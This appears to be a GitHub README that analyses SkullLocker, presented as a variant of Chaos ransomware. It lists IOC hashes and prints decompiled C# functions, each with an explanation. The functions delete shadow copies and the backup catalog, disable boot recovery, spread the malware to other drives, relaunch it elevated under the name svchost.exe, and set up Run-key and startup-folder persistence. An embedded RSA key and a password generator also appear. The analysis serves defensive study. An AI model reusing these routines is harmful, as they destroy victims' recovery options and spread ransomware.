

# SkullLocker-Anlysis
A small Analysis of SkullLocker Code  


#### (SkullLocker is new Variant of Chaos Ransomware )

*IOCS :*

- SkullLocker : 

MD5 : 62e53bc5aa5f2a70a54e328bff51505f
SHA1 : e7deceee97a09d539d81eb91f988ece5e2a2ff51
SHA256 : bb5ca9d8de51734dbd14dc081c7c892d819cd14fafd7ccd62849d70f9e679369

- Chaos :

MD5 : 98274f8ae42ac490c3441b3b14459356
SHA1 : 59a80c57499b6eb5de31fcbf582eeeb1c3b20e9d
SHA256 : d09b875ead838ec256b863b5e8e252d5bca9172b5479b00699ff31b4d745c92b

*Behaviour :*

```cs
private static void deleteShadowCopies()
		{
			Program.runCommand("vssadmin delete shadows /all /quiet & wmic shadowcopy delete");
		}
```

- delete all the shadow copies on the system to prevent users from recovering previous versions of files or folders.

```cs
private static void disableRecoveryMode()
		{
			Program.runCommand("bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no");
		}
```

- configure the Windows Boot Manager settings to ignore any boot failures and disable the automatic startup repair .

```cs
private static void deleteBackupCatalog()
		{
			Program.runCommand("wbadmin delete catalog -quiet");
		}
```

-  Delete the backup catalog. The backup catalog is a database that contains information about the backups created using Windows Backup . 


```cs
private static string spreadName = "skull.exe";
```

```cs
private static void spreadIt(string spreadName)
		{
			foreach (DriveInfo driveInfo in DriveInfo.GetDrives())
			{
				if (driveInfo.ToString() != "C:\\" && !File.Exists(driveInfo.ToString() + spreadName))
				{
					try
					{
						File.Copy(Assembly.GetExecutingAssembly().Location, driveInfo.ToString() + spreadName);
					}
					catch
					{
					}
				}
			}
		}
```

- the malware spreading itself across the computer's drives except for "C" under the name of skull.exe 

```cs
private static string processName = "svchost.exe";
```

```cs
private static void copyResistForAdmin(string processName)
		{
			string friendlyName = AppDomain.CurrentDomain.FriendlyName;
			string location = Assembly.GetExecutingAssembly().Location;
			Environment.GetFolderPath(Environment.SpecialFolder.Startup) + "\\" + friendlyName;
			string text = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\";
			string text2 = text + processName;
			ProcessStartInfo startInfo = new ProcessStartInfo(text2)
			{
				UseShellExecute = true,
				Verb = "runas",
				WindowStyle = ProcessWindowStyle.Normal,
				WorkingDirectory = text
			};
			Process process = new Process();
			process.StartInfo = startInfo;
			if (friendlyName != processName || location != text2)
			{
				if (!File.Exists(text2))
				{
					File.Copy(friendlyName, text2);
					try
					{
						Process.Start(startInfo);
						Environment.Exit(1);
						return;
					}
					catch (Win32Exception ex)
					{
						if (ex.NativeErrorCode == 1223)
						{
							Program.copyResistForAdmin(processName);
						}
						return;
					}
				}
				try
				{
					File.Delete(text2);
					Thread.Sleep(200);
					File.Copy(friendlyName, text2);
				}
				catch
				{
				}
				try
				{
					Process.Start(startInfo);
					Environment.Exit(1);
				}
				catch (Win32Exception ex2)
				{
					if (ex2.NativeErrorCode == 1223)
					{
						Program.copyResistForAdmin(processName);
					}
				}
			}
		}
```

- Copies  Friendlyname (current executable name) if it doesnt already exist to **/AppData/Roaming/** under the name of **svchost.exe** then creates a new ProcessStartInfo object that specifies the process to start and sets the appropriate properties for the process to run with elevated privileges.

```cs
private static void addLinkToStartup()
		{
			string folderPath = Environment.GetFolderPath(Environment.SpecialFolder.Startup);
			string str = Process.GetCurrentProcess().ProcessName;
			using (StreamWriter streamWriter = new StreamWriter(folderPath + "\\" + str + ".url"))
			{
				string location = Assembly.GetExecutingAssembly().Location;
				streamWriter.WriteLine("[InternetShortcut]");
				streamWriter.WriteLine("URL=file:///" + location);
				streamWriter.WriteLine("IconIndex=0");
				string str2 = location.Replace('\\', '/');
				streamWriter.WriteLine("IconFile=" + str2);
			}
		}
```

- also it adds a link file to this  path ( **\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup**)  under **svchost.url** .

```cs
private static void registryStartup()
		{
			try
			{
				RegistryKey registryKey = Registry.CurrentUser.OpenSubKey("SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", true);
				registryKey.SetValue("Microsoft Store", Assembly.GetExecutingAssembly().Location);
			}
			catch
			{
			}
		}
```

- utilizing the SetValue method to assign the location of the present executable file as the value for the "**Microsoft Store**" key. The objective is to add a registry entry to the Windows registry, which enables the current application to launch automatically during system startup .


##  Encryption :



- XML string representation of an RSA public key.

```cs
public static string rsaKey()
		{
			StringBuilder stringBuilder = new StringBuilder();
			stringBuilder.AppendLine("<?xml version=\"1.0\" encoding=\"utf-16\"?>");
			stringBuilder.AppendLine("<RSAParameters xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\" xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\">");
			stringBuilder.AppendLine("  <Exponent>AQAB</Exponent>");
			stringBuilder.AppendLine("  <Modulus>4On6FTL3V5M4vs3OcxgegY+zBSLFwmoId3WY+pftKnF6iQzRS6axqTFO6ciu1N/JJwU5FKbMx1AauuHO4j0miKeDiKWRiv2O3O2QaVFZhggupZp/P0amGQa9NYG9eHSB7kL5UHFDOgk44EyTTOYeDoA2c9C83YHyPF3/WrkfQrE=</Modulus>");
			stringBuilder.AppendLine("</RSAParameters>");
			return stringBuilder.ToString();
		}
```

- Function to generate a random password with the given length

```cs
public static string CreatePassword(int length)
		{
			StringBuilder stringBuilder = new StringBuilder();
			Random random = new Random();
			while (0 < length--)
			{
				stringBuilder.Append("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890*!=&?&/"[random.Next("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890*!=&?&/".Length)]);
			}
			return stringBuilder.ToString();
		}
```
